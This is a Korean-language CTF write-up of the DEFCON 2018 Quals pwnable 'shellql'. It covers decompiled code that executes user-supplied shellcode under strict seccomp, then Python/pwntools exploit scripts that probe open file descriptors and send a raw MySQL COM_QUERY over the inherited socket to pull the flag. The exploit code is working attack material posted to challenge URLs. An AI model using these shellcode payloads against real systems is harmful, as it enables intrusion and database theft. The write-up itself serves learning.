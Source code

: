 ```yaml
---
layout: post
title: shellql
category: Pwnable
source: "DEFCON CTF 2018 Quals."
rpath: /resource/shellql
tag: [mysql, shellcode, cgi, COM_QUERY]
---
```


**Category**: Pwnable

**Source**: DEFCON CTF 2018 Quals.

**Points**: 118

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Do you even SQL? The flag is in the table `flag`
> 
> http://ssat-ps.iptime.org:5103
> 
> [download]({{site.github.master}}{{page.rpath}}/shellme.so)

## Write-up

(*. 문제 환경을 재구성하여 풀이하였습니다.)

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

문제 사이트에 접속하면 shell을 입력하라고 한다. 뭘 입력해야 할지 모르겠는데, **debug me** 메뉴가 있으니 들어가보자.

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

php-cgi [소스 코드]({{site.github.master}}{{page.rpath}}/index.php)가 보인다. 우선 shellql database에 연결을 만들고, 내가 보낸 shell을 shellme() 함수를 통해 호출하는 간단한 코드이다.

cgi니까 shelle() 함수는 첨부된 shellme.so 파일에 정의되어 있을 것 같다. IDA로 shellme.so를 열어보자.

```c
Php::Value *__fastcall shellme(Php::Value *this, __int64 *a2)
{
  __int64 v2; // rsi
  void *src; // [rsp+0h] [rbp-48h]
  __int64 v5; // [rsp+10h] [rbp-38h]
  unsigned __int64 v6; // [rsp+28h] [rbp-20h]

  v2 = *a2;
  v6 = __readfsqword(0x28u);
  ZNK3Php5Value11stringValueB5cxx11Ev(&src, v2);
  j_shell_this(src);
  Php::Value::Value(this, 1);
  if ( src != &v5 )
    operator delete(src);
  return this;
}

__int64 __fastcall j_shell_this(void *src)
{
  return shell_this(src);
}

__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

shellme() 함수는 php에서 넘어온 파라미터를 이용하여 argument로 전달된 shell string을 복구하고 j_shell_this() 함수로 넘기는데, j_shell_this() 함수는 그냥 shell_this() 함수를 호출하는 함수이다.

shell_this() 함수는 mmap으로 메모리 구역을 설정한 후 전달받은 데이터를 복사해넣고 해당 메모리를 호출하여 실행한다.

참고로, mmap()은 아래와 같은 모양을 하고 있다.

```
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

메모리의 적당한 영역에 v1(src 길이)만큼의 메모리를 할당하고, RWX 권한을 부여하는데 flags는 MAP_ANONYMOUS \| MAP_PRIVATE로 설정하여 다른 프로세스와 공유되지 않도록 하였다. (MAP_ANONYMOUS라서 fd는 -1, offset은 0이다.)

prctl() 함수는 SECCOMP를 걸어주는 함수인데, prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)이 걸려있다. 이 모드에서는 read()/write()/exit()/sigret() syscall만 사용할 수 있다고 한다.

SECCOMP 제약만 만족하는 shellcode를 써주면 그대로 실행해주는 함수를 친절하게 제공해주니 shellcode를 잘 쓰면 될 것 같은데, native program에서 mysql을 어떻게 사용할 수 있는지가 문제에서 묻는 내용인 것 같다.

처음에 php-cgi 코드를 봤을 때는 sqli_connect() 함수를 호출하는 라인이 mysql 계정과 database를 알려주기 위해서 작성된거라고 생각해서 c의 mysql connector를 shellcode로 작성하려고 했는데, 보면 볼수록 답이 보이질 않았다.

mysql은 tcp 3306 포트를 통해 서비스 되니, 소켓 통신이 가능할지 살펴보자. seccomp 때문에 소켓을 새로 열 수는 없지만 php-cgi에서 이미 연결을 만들었으니 소켓이 열려있을 수도 있을 것 같다. linux에서는 파일이건 소켓이건 모두 file로 간주되니 소켓이 열려있다면 [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)를 사용할 수 있을것이다.

```
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket.
```

알다시피, file descriptor 0, 1, 2번은 예약 되어 있고 보통 순서대로 열리니 3번 부터 write를 시도해보자.

```python
[...]

context(arch='amd64', os='linux')

#URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'
URL = 'http://ssat-ps.iptime.org:5103/cgi-bin/index.php'

print "fd write test(3~9)"
fd = []
for i in range(3, 10):
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += "add eax, 48\n"
	payload += "mov [rsp], rax\n"
	payload += shellcraft.write(1, 'rsp', 1)

	data = {'shell': asm(payload)}

	res = requests.post(URL, data = data)
	if res.text == str(len(msg)):
		print "%d is alive!"%i
		fd.append(i)
```

위 코드는 3번부터 9번 fd까지에 특정 메세지를 write한 후 return value(rax)를 이용해서 write가 성공하는지 확인한다. shellcraft에서 echo나 write를 할때 rsp를 string buffer로 활용하길래 출력 buffer도 rsp를 이용하였다.

처음에는 코드를 제대로 구성한 것 같은데도 http 500 response가 오면서 출력 결과를 확인할 수 없었는데, 찾아보니 cgi 프로그램에서는 가장 먼저 [MIME-type 헤더 출력](https://httpd.apache.org/docs/trunk/ko/howto/cgi.html#writing)이 있어야 한다고 해서 추가해 주었더니 정상적으로 출력을 확인할 수 있었다. (Content-type 없이 그냥 \n 하나만 넣어도 정상동작한다. 그냥 빈 줄 다음에 컨텐츠가 나오는지 확인하는 것 같다.)

![img]({{page.rpath|prepend:site.baseurl}}/writable_ports.png)

코드 실행결과 3번과 4번 fd가 열려 있는 것을 확인할 수 있다.

3번 또는 4번 포트가 mysql 포트라면, query에 대한 response 수신을 위해 read도 가능해야 할 것이다.

위와 동일한 방법으로 write 후에 read도 가능한지 확인해보자.

```python
print "\nfd read test for writable ports"
for i in fd:
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += shellcraft.read(i, 'rsp', 10)
	payload += shellcraft.write(1, 'rsp', 'rax')
	
	data = {'shell': asm(payload)}

	res = requests.post(URL, data=data)
	if len(res.text) > 0:
		print "%d is available."%i
		mysql_port = i
```

![img]({{page.rpath|prepend:site.baseurl}}/readable_ports.png)

3번과 4번 포트 중에 4번 포트만 read가 가능했다. mysql은 4번 포트를 사용할 가능성이 매우 높아 보인다.

이제 4번 포트를 이용해서 mysql query를 날려보자.

[mysql documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_connection_lifecycle.html)에 따르면 mysql protocol은 connection phase - command phase - replication phase가 있다고 한다.

connection phase는 처음 database에 접속하는 과정이며, 이 문제에서는 php-cgi에서 mysqli_connect() 함수가 실행될때 완료된다.

command phase에서는 database에 query를 날리는 과정이다. query를 날릴 때는 [COM_QUERY](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query.html)를 이용한다고 한다. COM_QUERY는 [length \| 0x03 \| Query] 형식으로 구성되는데 length는 4 byte little endian이란다. (나중에 writeup들을 봤더니 mysql query를 wireshark로 잡아서 COM_QUERY 구조를 알아낸 팀도 있었다.)

```python
print "\nget query result"
msg = "\x03" + "select * from flag"								#COM-QUERY format
msg = p32(len(msg)) + msg
payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
payload += shellcraft.write(mysql_port, msg, len(msg))
payload += shellcraft.read(mysql_port, 'rsp', 200)
payload += shellcraft.write(1, 'rsp', 'rax')

data = {'shell': asm(payload)}

res = requests.post(URL, data=data)
pattern = re.compile(r'OOO{.+}')
print re.search(pattern, res.text).group()
```

처음에는 100 바이트만 읽었는데, flag가 짤려서 나왔다. res.text 전체를 print하면 여러 지저분한 값들이 많이 나오는데, 아마 COM_QUERY에 대한 응답 형식일 것 같으나 별 관심은 없어서 flag만 잘라내었다.

여기까지의 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 모두 실행하면 flag를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **OOO{shellcode and webshell is old news, get with the times my friend!}**
